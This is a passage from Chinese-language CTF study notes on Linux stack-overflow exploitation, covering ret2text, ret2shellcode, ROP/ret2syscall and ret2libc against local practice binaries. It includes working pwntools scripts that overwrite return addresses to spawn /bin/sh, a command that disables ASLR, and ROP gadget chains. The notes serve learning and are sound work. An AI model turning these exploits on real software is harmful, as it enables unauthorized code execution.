4. 使用`gdb`进行动态调试

   > 

5. 在`main()`函数处断点

   > 

6. 运行程序，并步过到`read()`函数

   > 

7. 继续步过，输入合法内容，然后使用`stack`命令查看当前栈

   > 

8. 从上图中可以看出，`0x7fffffffdd48`地址，即`rbp +8`的地址就是函数的返回地址，也就是我们需要溢出覆盖的位置。现在返回`IDA Pro`，查看`backdoor()`函数的的内存地址，这个地址就是需要覆盖的`0x7fffffffdd48`地址的值

   > 

9. 已知后门函数的地址为`0x04011FB`，现在我们需要计算覆盖函数返回地址需要的字节数。在上文中可以看到`rbp`前的字节数是`0x20`，即32字节，而在64位系统中，`rbp`本身需要占用8字节，因此总共需要40字节的垃圾数据，然后拼接需要返回的函数地址`0x04011FB`
   ```py
   from pwn import *
   
   # 连接本地程序
   io = process('./ret2text')
   # shell地址
   shell = 0x004011FB
   # payload
   payload = b'A' * 32 + b'B' * 8 + p64(shell)
   
   io.recvline()
   io.sendline(payload)
   io.interactive()
   ```

   *注：如果是32位系统，`ebp`的长度为4字节，拼接地址时使用的方法也应该改为`p32()`*

10. 执行脚本，成功`getshell`

    > 

### ret2shellcode

在`ret2text`中，我们使用的`shell`是题目中为我们预留好的，但是实际的比赛中基本不可能为我们预留这样一条危险的代码，因此我们需要自己向程序中输入shellcode

具体步骤是将栈帧上的函数返回地址更改为攻击者手动传入的shellcode所在的缓冲区地址，初期往往直接将shellcode写入栈缓冲区，但是目前由于NX保护措施，栈缓冲区不可执行，因此当下常用的手段变为向bss缓冲区或者堆缓冲区内写入shellcode，并使用mprotect赋予其执行权限

#### 图解

> 

#### shellcode

`shellcode`是传入程序内部执行的代码，必须是机器码，因此需要借助一些工具来编写`shellcode`

**pwntools中的shellcode**

在`pwntools`中自带一个`shellcraft`包，提供了有关`shellcode`的方法和属性

*注：在进行64位pwn攻击时，应当先加上`context.arch = 'amd64'`语句，将脚本环境设置为64位*

| 方法名              | 参数类型 | 返回值类型 | 方法意义                   |
| ------------------- | -------- | ---------- | -------------------------- |
| shellcraft.sh       | None     | str        | 生成一段汇编shellcode      |
| shellcraft.amd64.sh | None     | str        | 生成一段64位汇编shellcode  |
| asm                 | str      | bytes      | 将一段汇编代码转换为机器码 |

#### 攻击流程

1. 查看保护措施

   > 

2. 使用`gdb`调试，在`main()`断点运行，查看内存信息，可以看出栈拥有`rwx`权限

   > 

3. 使用`IDA`寻找漏洞点
   ```c
   int __cdecl main(int argc, const char **argv, const char **envp)
   {
     char s[100]; // [esp+1Ch] [ebp-64h] BYREF
   
     setvbuf(stdout, 0, 2, 0);
     setvbuf(stdin, 0, 1, 0);
     puts("No system for you this time !!!");
     gets(s);
     strncpy(buf2, s, 0x64u);
     printf("bye bye ~");
     return 0;
   }
   ```

   `main()`函数中使用`gets()`接收了一段用户输入，并将该输入拷贝到了缓冲区`buf2`，而这里的`buf2`缓冲区存在于`.bss`段

   > 

   这里的`buf2`地址为`0x0804A080`，而服务器上的`buf2`地址同样位于该地址，并且该题没有启用`NX`保护，因此可以作为攻击点写入`shellcode`

4. 使用`gdb`进行动态调试，计算溢出数据长度，先在`main()`处断点运行，然后步过到`gets()`函数，输入合法长度，并查看栈帧

   > 
   >
   > 

   这里需要计算一下，因为`ebp`并没有直接显示，图中可以看到绝对偏移值从`19:0064`变化为了`23:008c`，而相对偏移值从`-024`变化为了`+004`，因此可以计算得出`ebp`的绝对偏移值为`0x8c - 0x4 = 0x88`，然后计算从局部变量到`ebp`的长度，即`0x88 - eax(0x1c) = 0x6c`，即108字节，同时不要忘记`ebp`本身的4字节

5. 构造攻击脚本
   经过计算，溢出112字节，返回地址为`0x804A080`

   ```py
   from pwn import *
   
   buf2_addr = 0x804a080
   shellcode = asm(shellcraft.sh())
   payload = shellcode.ljust(112, b'A') + p32(buf2_addr)
   
   io = process('./ret2shellcode')
   io.shendline(payload)
   io.interactive()
   ```

### ret2tack

虽然由于各种保护措施，栈可执行的题目一般不会碰到，但还是有必要了解相关攻击方法，现在我们自己写一个相关题目进行攻击

**编写题目**

1. 编写`ret2stack.c`
   ```c
   #include <stdio.h>
   
   int main() {
   	char str[100];
   	gets(str);
   	return 0;
   }
   ```

2. 编译为可执行文件

   *注：如果无法编译，可能是由于`gcc`版本过高，默认使用`c11`及以上的标准进行编译，在`c11`标准中，`gets()`被移除，使用`fgets()`代替，因此需要添加`-std=gnu99`使用`c99`标准*

   ```sh
   gcc ret2stack.c -o ret2stack
   ```

3. 查看`ret2stack`的保护措施

   > 

   从上图中可以看出，默认保护措施全开，是64位小端序的可执行程序

4. 关闭`ASLR`

   ```sh
   echo 0 > /proc/sys/kernel/randomize_va_space
   ```

   如果提示权限不够，可以使用`tee`

   ```sh
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   ```

   然后使用`cat`查询状态

   ```sh
   cat /proc/sys/kernel/randomize_va_space
   ```

   > 

5. 关闭其他保护措施

   使用以下命令编译可以关闭所有保护措施

   ```sh
   gcc -fno-stack-protector -z execstack -no-pie -g -o ret2stack ret2stack.c
   ```

   > 

   - `-fno-stack-protector`：关闭`Canary`
   - `-z execstack`：开启栈可执行
   - `-no-pie`：关闭`PIE`
   - `-g`：开启调试信息，`ret2stack.c`存在时，在`gdb`中显示c语言源代码

#### 攻击流程

1. 调试程序，在`main()`断点，步过到`gets()`位置，并输入合法字符

   > 

2. 查看当前栈信息

   > 

3. 计算溢出长度

   根据上图中可以看出，`rsp`是输入的内容地址，`rbp + 008`是函数返回地址，因此需要溢出的长度为`0x70 + 0x8`，共120字节

4. 构造攻击脚本

   ```py
   from pwn import *
   
   context.arch = 'amd64'
   shell = 0x7fffffffdcd0
   shellcode = asm(shellcraft.amd64.sh())
   
   payload = shellcode.ljust(120, b'A') + p64(shell)
   
   io = process('./ret2stack')
   
   io.sendline(payload)
   io.interactive()
   ```

   实际上，这个攻击脚本并不一定能执行成功，因为`pwndbg`的内存地址不一定是真实地址，我们将`ret2stack.c`中添加打印语句，并查看真实地址

5. 查看真实地址

   > 

   因此可以肯定，这道题中，地址不能使用`pwndbg`显示的地址，我们需要更改攻击脚本

6. 更改攻击脚本的`shell`地址

   ```py
   from pwn import *
   
   context.arch = 'amd64'
   shell = 0x7fffffffdd10
   shellcode = asm(shellcraft.amd64.sh())
   
   payload = shellcode.ljust(120, b'A') + p64(shell)
   
   io = process('./ret2stack')
   
   io.sendline(payload)
   io.interactive()
   ```

7. 执行脚本，获取`shell`

   > 

### 返回导向编程 Return Oriented Programming

返回导向编程`ROP`是一种高级漏洞利用技术，通过复用程序中已有的代码片段`gadaget`来构造恶意逻辑，从而绕过数据执行保护等安全机制。攻击者利用栈溢出等漏洞控制栈的内容，将返回地址替换为`gadget`的地址，并通过`ret`指令将这些`gadget`串联成链式调用，最终实现攻击目标

#### 系统调用

系统调用是指系统给用户提供的编程接口，通常是访问操作系统所管理的底层硬件的接口，本质上是一些内核函数代码，以规范的方式驱动硬件。`x86`通过`int 0x80`指令进行系统调用，`amd64`通过`syscall`指令进行系统调用

**举例**

```c
#include <stdio.h>
#include <unistd.h>

char str[0x100] = "Hello, World!";

my_puts() {
    write(1, &str, 0x100);
}

int main() {
    my_puts();
    return 0;
}
```


`my_puts() -> write() -> sys_write()`的过程：

1. 程序中的代码：`my_puts("Hello, World!");`
2. libc中的用户代码：`write(1, &"Hello, World!", 13);`
3. Linux内核中的代码：`[eax = 4; ebx = 1; ecx = &"Hello, World!"; edx = 13; ] + int0x80; => sys_write()`

在实际操作中，我们需要执行系统调用`execve("/bin/sh", NULL, NULL)`，对应的汇编代码为

```assembly
mov eax, 0xb
mov ebx, ["/bin/sh"]
mov ecx, 0
mov edx, 0
int 0x80
```

以上代码在程序中并不连续存在，因为我们需要将分离的代码片段组合起来，达到执行系统调用的目的，这个过程便称为`ROP`，每个代码片段称为`gadget`

#### 图解

> 

上图中，最左侧是栈，中间是栈溢出后的栈，右侧是程序的代码段。`ROP`指的就是用特意拼接的数据进行栈溢出，然后利用程序中已有的代码片段`gadget`进行重复执行，并跳转到下一条，最终达到控制程序的过程

#### 示例

现在我们来模拟一个`ROP`过程，如下图

1. 假设我们已经进行了栈溢出，目前程序`EIP`指向`ret`，准备返回我们指定的地址`0x08052318`

> 

2. 程序执行`ret`，将`0x08052318`存入`EIP`寄存器，`EIP`跳转到`pop edx; ret;`这行命令，同时`ESP`向上移动一位

> 

3. 程序执行`pop edx`将当前`ESP`指向的`0x0c0c0c0c`地址的数据`value`弹入`EDX`，并向上移动一位

> 

4. 程序执行`ret`，将`ESP`当前指向的地址弹入`EIP`，`EIP`跳转到`xor eax, eax; ret;`，`ESP`同时向上移动一位

> 

5. 程序执行`xor eax, eax`，`EAX`被清空

*注：这里没有移动`ESP`*

> 

6. 程序执行`ret`，`ESP`指向的地址被弹入`EIP`，`EIP`跳转到`mov eax, (edx); ret;`，同时`ESP`向上移动一位

> 

7. 程序执行`mov eax, (edx)`，将`EDX`中的值传给`EAX`，到这里，`EAX`和`EDX`的值就修改为了我们需要的值

*注：图例制作有误，实际的代码片段应该为`mov edx, eax`或者`mov %eax, (%edx)`*

> 

### ret2syscall

#### 攻击流程

1. `checksec`查看文件保护措施

> 

程序开启了`NX`保护，栈不可执行，而且缺少拥有`x`权限的段，排除`ret2shellcode`题型的可能

2. `IDA`反编译

- 寻找后门函数

> 

- 没有后门函数，寻找`/bin/sh`

> 

- 找到了一条`/bin/sh`，证实是`ret2syscall`题型，然后回到`main()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

3. 很明显，`gets()`函数存在栈溢出，然后使用`ROPgadget`来寻找需要的`gadget`

```sh
ROPgadget --binary rop --only "pop|ret"
```

```sh
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809d7b2 : pop ds ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d5 : pop ebp ; pop esi ; pop edi ; ret
0x0804838e : pop ebp ; ret
0x080a9a45 : pop ebp ; ret 0x10
0x08096a29 : pop ebp ; ret 0x14
0x08070d76 : pop ebp ; ret 0xc
0x0804854a : pop ebp ; ret 4
0x08049c00 : pop ebp ; ret 8
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0804838d : pop edi ; pop ebp ; ret
0x080a9a44 : pop edi ; pop ebp ; ret 0x10
0x08096a28 : pop edi ; pop ebp ; ret 0x14
0x08070d75 : pop edi ; pop ebp ; ret 0xc
0x08048549 : pop edi ; pop ebp ; ret 4
0x08049bff : pop edi ; pop ebp ; ret 8
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0805c508 : pop edi ; pop esi ; ret
0x0804846f : pop edi ; ret
0x08049a1b : pop edi ; ret 4
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0806eb6a : pop edx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080671ea : pop es ; pop edi ; ret
0x0806742a : pop es ; ret
0x08092259 : pop esi ; pop ebp ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x0804838c : pop esi ; pop edi ; pop ebp ; ret
0x080a9a43 : pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a27 : pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d74 : pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048548 : pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfe : pop esi ; pop edi ; pop ebp ; ret 8
0x0804846e : pop esi ; pop edi ; ret
0x08049a1a : pop esi ; pop edi ; ret 4
0x08049a95 : pop esi ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080bb146 : pop esp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
0x080639f9 : pop ss ; ret 0x2c73
0x080643ba : pop ss ; ret 0x3273
0x080639e4 : pop ss ; ret 0x3e73
0x080643a0 : pop ss ; ret 0x4c73
0x080639cf : pop ss ; ret 0x5073
0x080639ba : pop ss ; ret 0x6273
0x08064386 : pop ss ; ret 0x6673
0x08061f05 : pop ss ; ret 0x830f
```

4. 根据`execve()`函数的汇编代码，我们需要找到以下几个`gadget`片段

- `pop eax; ret`
- `pop ebx; ret`
- `pop ecx; ret`
- `pop edx; ret`

省略寻找过程，我们最后可以得到以下结果

- `pop eax; ret` => `0x080bb196`
- `pop ecx; pop ebx; ret` => `0x0806eb91`

- `pop edx; ret` => `0x0806eb6a`

5. 找到需要的`gadget`后，开始拼接`payload`

- 程序首先执行`pop eax; ret`，在栈上，`EIP`指向`pop eax`，`ESP`指向`pop eax; ret`的高一位地址，该地址的值就是将要`pop eax`的内容，因此栈上填入`0xb`

| EIP  | .text        | stack      | ESP  |
| ---- | ------------ | ---------- | ---- |
|      |              | 0xb        | ←    |
| →    | pop eax; ret | 0x080bb196 |      |

- 程序执行`pop eax`，`0xb`被`pop`弹入`eax`，`ESP`向高位移动一位，程序将要进行`ret`，因此栈上填入下一条命令的地址

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      | pop ecx; pop ebx; ret | 0x0806eb91 | ←    |
|      |                       | 0xb        |      |
| →    | pop eax; ret          | 0x080bb196 |      |

- 程序执行`ret`，`EIP`跳转到`pop ecx; pop ebx; ret`，`ESP`自动上移一位，程序将要进行`pop ecx`，因此栈上填入`0`

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      |                       | 0          | ←    |
| →    | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

- 程序执行`pop ecx`，`0`被`pop`弹入`ecx`，`ESP`向高位移动一位，程序将要进行`pop ebx`，因此栈上填入`/bin/sh`的地址

`/bin/sh`的地址可以在`IDA`寻找，也可以通过`ROPgadget`寻找

```sh
ROPgadget --binary ./rop --string "/bin/sh" 
```

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      |                       | 0x080be408 | ←    |
|      |                       | 0          |      |
| →    | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

- 程序执行`pop ebx`，`/bin/sh`的地址被弹入`ebx`，`ESP`向高位移动一位，程序将要进行`ret`，因此栈上填入下一条指令的地址

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      | pop edx; ret          | 0x0806eb6a | ←    |
|      |                       | 0x080be408 |      |
|      |                       | 0          |      |
| →    | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

- 程序执行`ret`，`EIP`跳转到`pop edx; ret`，`ESP`自动上移一位，程序将要进行`pop edx`，因此栈上填入`0`

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      |                       | 0          | ←    |
| →    | pop edx; ret          | 0x0806eb6a |      |
|      |                       | 0x080be408 |      |
|      |                       | 0          |      |
|      | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

- 程序执行`pop edx`，`0`被`pop`弹入`edx`，`ESP`向高位移动一位，程序将要进行`ret`，因此填入`int 0x80`的地址

寻找`int 0x80`的地址

```sh
ROPgadget --binary rop --only "int"
```

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      | int 0x80              | 0x08049421 | ←    |
|      |                       | 0          |      |
| →    | pop edx; ret          | 0x0806eb6a |      |
|      |                       | 0x080be408 |      |
|      |                       | 0          |      |
|      | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

- 程序执行`ret`，`EIP`跳转到`int 0x80`，程序将要执行`int 0x80`

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      | int 0x80              | 0x08049421 | ←    |
|      |                       | 0          |      |
| →    | pop edx; ret          | 0x0806eb6a |      |
|      |                       | 0x080be408 |      |
|      |                       | 0          |      |
|      | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

- 程序执行`int 0x80`，攻击完成

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      |                       | N/A        | ←    |
| →    | int 0x80              | 0x08049421 |      |
|      |                       | 0          |      |
|      | pop edx; ret          | 0x0806eb6a |      |
|      |                       | 0x080be408 |      |
|      |                       | 0          |      |
|      | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

6. `gdb`调试计算偏移值

> 

上图中，`eax`是`v4`的地址，偏移值为`0x88 - 0x1c = 108`，加上`ebp`本身的4字节，共112字节

7. 构造攻击脚本

```py
from pwn import *

eax = 0x080bb196
ecx_ebx = 0x0806eb91
edx = 0x0806eb6a
int_0x80 = 0x08049421
binsh = 0x080be408

payload = flat([b'a' * 112, eax, 0xb, ecx_ebx, 0, binsh, edx, 0, int_0x80])

io = process('./rop')
io.sendline(payload)
io.interactive()
```

8. 执行脚本，完成攻击

> 

### 动态链接

#### 动态链接与静态链接

假设有以下c语言文件

```c
#include <stdio.h>

int main() {
	char str[100];
	puts("Ki1z's PWN notes");
	gets(str);
	return 0;
}
```

我们编译为两个程序，动态链接程序`dynamic`和静态链接程序`static`

```sh
gcc -no-pie -o dynamic test.c
```

```sh
gcc -no-pie --static -o static test.c
```

首先来观察两个文件的不同，使用`file`命令

**dynamic**

```sh
kiiz@vm:~/桌面$ file dynamic 
dynamic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=39b621c54dfc3f2ff1ce302fba8655c4dcc5d7fa, for GNU/Linux 3.2.0, not stripped
```

**static**

```sh
kiiz@vm:~/桌面$ file static 
static: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=b658bbc21d4e0c7a648f4af4b6f19f323827e5a9, for GNU/Linux 3.2.0, not stripped
```

`dynamic`文件中明确指明了`dynamically linked`动态链接，后面紧跟装载器`/lib64/ld-linux-x86-64.so.2`，再来对比文件大小

> 

可以看到，`dynamic`文件大小仅为`16K`，而`static`占用`789K`

> 

如图，两个程序的执行结果完全一致，下面通过`IDA`来进行对比

**dynamic**

> 

**static**

> 

可以看出，静态链接的程序比动态链接的程序多出了很多函数，这是因为静态链接需要在程序编译时，将程序需要的所有链接库的函数拷贝到程序内部，当程序执行时，程序能直接从其内部调用必要的函数，而动态链接库则是在程序执行时，才将需要的函数拷贝进内存中，供程序调用

#### 动态链接的相关结构

下面，我们来了解一些动态链接文件独有的结构

- `.dynamic`：段的一部分，存储了动态链接的关键信息，通常包含动态链接器所需的元数据，主要用于动态链接和运行时库加载
- `link_map`：保存了进程载入的动态链接库的链表
- `__dl_runtime_resolve`：装载器中用于解析动态链接库中函数的实际地址的函数
- `.got`：段的一部分，存储了全局变量和函数的地址，在程序运行时由动态链接器填充
- `.got.plt`：段的一部分，主要涉及动态链接过程中外部函数的地址，以及支持延迟绑定机制的数据。这些信息对于动态链接库的正确加载和使用至关重要

#### 动态链接过程

我们假设`libc`中存在一个名为`foo`的函数，下面我们来演示其动态链接过程

```c
#include <stdio.h>

int main() {
    foo();
    return 0;
}
```

1. 编译

在编译程序后，会生成一段汇编代码，在汇编中，函数调用一般使用`call`命令，因此汇编代码中存在一行代码为`call foo@plt`

2. `plt`表

每一个在程序中被调用的动态链接库函数都会在plt中创建一个表项，因此当程序第一次调用动态链接库中的函数时，需要先到`plt`表查询该函数地址，代码实现为`foo@plt`

3. `foo@plt`

在该表项中，会执行以下代码

```assembly
jmp *(foo@GOT)
push index
jmp PLT0
```

- `jmp *(foo@GOT)`：先跳转到`got`表，试图在`got`表中寻找函数真实地址，由于这是程序第一次调用`foo`函数，`got`表中并不存在该地址，因此程序返回`plt`表
- `push index`：为`__dl_runtime_resolve`传参，指定需要解析的函数
- `jmp PLT0`：跳转到`plt`头部，将要执行`__dl_runtime_resolve`来解析`foo`的真实地址

4. `PLT0`

在`PLT0`中程序会执行如下代码

```assembly
push *(GOT+4)
jmp *(GOT+8)
```

- `push *(GOT+4)`：为`__dl_runtime_resolve`传参，指定`foo`所在的动态链接库
- `jmp *(GOT+8)`：跳转到`__dl_runtime_resolve`所在位置

5. 解析函数真实地址

程序在`__dl_runtime_resolve`函数中解析`foo`函数的真实地址，并将解析结果返回`.got.plt`中

6. 第二次调用

下面假设程序进行第二次调用`foo`，程序到`plt`表，然后到`got`表，此时`got`表中已经存放了函数真实地址，因此程序直接跳转到`foo`的真实地址执行

#### 示例

下面我们来演示一下`puts`函数的动态链接过程

```c
#include <stdio.h>

int main() {
	int a;
	puts("First");
	a = 0;
	puts("Second");
	return 0;
}
```

1. `gdb`动态调试程序，在`main()`断点运行，然后查看`got`表内容

> 

可以看出，在程序未调用`puts()`函数之前，`got`表中存储的地址实际是`plt`表的地址

> 

2. 步过第一个`puts()`，查看`got`表

> 

可以看出，此时程序已经完成了`puts()`函数的地址解析，`got`表储存的是`puts()`函数的真实地址

### ret2libc1

首先尝试使用`retsyscall`的步骤寻找`gadget`

```assembly
kiiz@vm:~/桌面$ ROPgadget --binary ret2libc1 --only "pop|ret"
Gadgets information
============================================================
0x080486ef : pop ebp ; ret
0x080486ec : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804841d : pop ebx ; ret
0x080486ee : pop edi ; pop ebp ; ret
0x080486ed : pop esi ; pop edi ; pop ebp ; ret
0x08048406 : ret
0x0804854e : ret 0xeac1
```

可以看出，这次的程序中能找到的有关`pop|ret`的命令并不能够让我们构建一个完整的payload，那我们再尝试在程序中寻找后门函数

```c
void secure()
{
  time_t v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf("%d", &input);
  if ( input == secretcode )
    system("shell!?");
}
```

我们在程序中找到了`secure()`函数，该函数虽然调用了`system()`函数，但是并没有获取`shell`

虽然此处的`system()`没有直接用处，但是`system()`会在`.got`表中留下实际的内存地址供我们调用

> 

在调用了`system()`函数后，我们只需要在栈上传入`system()`的参数`"/bin/sh"`就能直接`getshell`

*注：32位程序使用栈传参，64位程序使用寄存器传参*

在解题之前，我们还需要了解如何传递参数，本题是32位程序，使用栈传参，而参数的位置位于`system()`栈帧的高2地址长度的位置

> 

为什么看起来是高1个地址长度？因为在`system()`函数中，第一条执行的命令是`push ebp`，该命令会将`system()`函数自己的`ebp`压入栈中

> 

对于`system ebp`上方的返回地址，可以是垃圾数据，如有需要，也可以是其他`gadget`，这道题只需要垃圾数据即可

#### 攻击流程

1. 检查文件安全措施

> 

仅有`NX`开启，可以进行栈溢出

2. 使用`IDA`寻找溢出点

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(s);
  return 0;
}
```

很显然，溢出点在`gets(s)`函数，且没有现成`shell`函数可用

3. 使用`ROPgadet`寻找`gadget`

> 

没有足够的`gadget`可用，需要寻找其他方式

4. 在`IDA`中，可以发现`secure()`函数中调用了`system()`函数

```c
void secure()
{
  time_t v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf("%d", &input);
  if ( input == secretcode )
    system("shell!?");
}
```

可以利用这里的`system()`函数的`plt`项，在溢出位置填入`system@plt`的地址，让程序自己调用`system()`寻找地址

5. 利用`pwndbg`计算溢出长度，并确定`system@plt`的地址

> 

确定`system@plt`的地址为`0x8048460`

> 

观察到绝对偏移，`ebp`的位置在`0x88`，`eax`的位置在`0x1c`，距离`0x88 - 0x1c = 108`，因此需要溢出112字节数据

6. 编写攻击脚本

已知溢出112字节，拼接`system@plt`的地址，然后拼接4字节的垃圾数据，该数据实际是程序完成`system()`后返回的函数地址，但是这道题调用`system()`后已经获取了`shell`，不需要进行下一步动作，因此直接传入垃圾数据，最后拼接`"/bin/sh"`的地址，使用`ROPgadget`查询

> 

```py
from pwn import *

system_plt = 0x8048460
bin_sh = 0x08048720
payload = flat([b'a' * 112, system_plt, b'bbbb', bin_sh])

io = process('./ret2libc1')
io.sendline(payload)
io.interactive()
```

> 

执行脚本，成功`getshell`

### ret2libc2

这道题实际上就是`ret2libc1`的改版，删除了程序内部写死的`"/bin/sh"`，需要我们自己手动输入

#### 攻击流程

1. 检查程序安全性

> 

与上题一致，可以进行栈溢出

2. 查询`"/bin/sh"`

> 

很显然，这一次没有`"/bin/sh"`可用，需要我们手动写入

3. 寻找`"/bin/sh"`编写位置

如果我们要写入`"/bin/sh"`，就需要指定一个位置，对于一般的程序，可以写入的位置有`DATA`和`STACK`，而因为`ASLR`的保护，一般不写入栈中，因此这道题中，我们需要在数据段寻找可以写入的位置

> 

在`.bss`节中，我们可以发现一个缓冲区`buf2`，长度100字节，正好可以用于写入`"/bin/sh"`

4. 查看`plt`表并记录地址

> 

5. 编写攻击脚本

已知溢出长度为112字节，第一次返回地址为`gets@plt`，紧跟的是执行`gets()`后的返回地址`system@plt`，然后是`gets()`的参数，也就是`buf2`的地址，最后是`system()`的参数，同样是`buf2`的地址

```py
from pwn import *

gets_plt = 0x8048460
bss = 0x0804A080
system_plt = 0x8048490
bin_sh = b'/bin/sh\x00'
payload = flat([b'a' * 112, gets_plt, system_plt, bss, bss])

io = process('./ret2libc2')
io.sendline(payload)
io.sendline(bin_sh)
io.interactive()
```

*注：这里的`"/bin/sh"`后面的`\x00`是截断符，防止末尾的换行符`\n`写入*

执行脚本，成功`getshell`

> 

### ret2libc3

上题中，题目删除了`"/bin/sh"`，我们需要自己传入`"/bin/sh"`并调用，而这题中，题目甚至删除了`system()`函数，我们需要自己调用`system()`函数

首要任务便是寻找`system()`函数，实际上`system()`本身就是一个动态链接库中的函数，必定存在于动态链接库文件中。我们知道，动态链接的程序在每次执行时，都会将动态链接库中的内容复制到程序本体中，以便程序自身调用，复制的位置位于栈的低位

> 

如上图所示，栈的内存地址是`0xfffdd000`，而动态链接库是`0xf7ffd000 - 0xf7d64000`。那么，动态链接的内存有整整`2723840`字节，我们该怎么确定`system()`的位置，同时，我们还需要考虑，由于`ALSR`的开启，每次函数的位置都在不断的变化

这里我们需要知道，在动态链接库复制进程序内存的时候，其内部的函数相对位置是保持不变的，这其实也就意味着，一旦我们能知道动态链接库中某个函数相对`system()`函数的偏移值，我们也就能间接调用`system()`函数，而且在动态链接库中，也存在`"/bin/sh"`字符串，也能供我们调用。根据这个原理，我们来进行攻击

#### 攻击流程

1. 检查文件安全性

> 

这题的重点是`RELRO`保护为`Partial RELRO`，如果是`FULL RELRO`，那么将无法进行攻击

2. 寻找溢出点

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(s);
  return 0;
}
```

很显然，溢出点位于`gets(s)`，溢出长度同样是112字节

3. 检查`plt`表

> 

为什么要检查`plt`表，因为`plt`表中记录了程序所有需要调用的外部函数，同时能供我们调用这些函数，由上文分析可知，一旦我们知道了某个函数的地址，又知道其相对于`system()`的偏移值，我们就能直接调用`system()`函数，那么，程序中存储外部函数的位置，也就是`got`表

4. 检查`got`表

> 

图中可以看出，`printf()`、`gets()`、`puts()`和`__libc_start_main`因为已经被执行，因此能直接显示其真实地址。在远程端口中，虽然我们无法使用`pwndbg`查看`got`表，但是我们能利用`puts()`函数，将`got`表的内容打印出来

5. `got`泄露

先编写一个泄露`puts()`地址的脚本，在`pwntools`中，为我们提供了`plt`和`got`方法，能快捷地输出其地址，因为没有开启`PIE`保护，地址不会改变

```py
from pwn import *

elf = ELF('./ret2libc3')
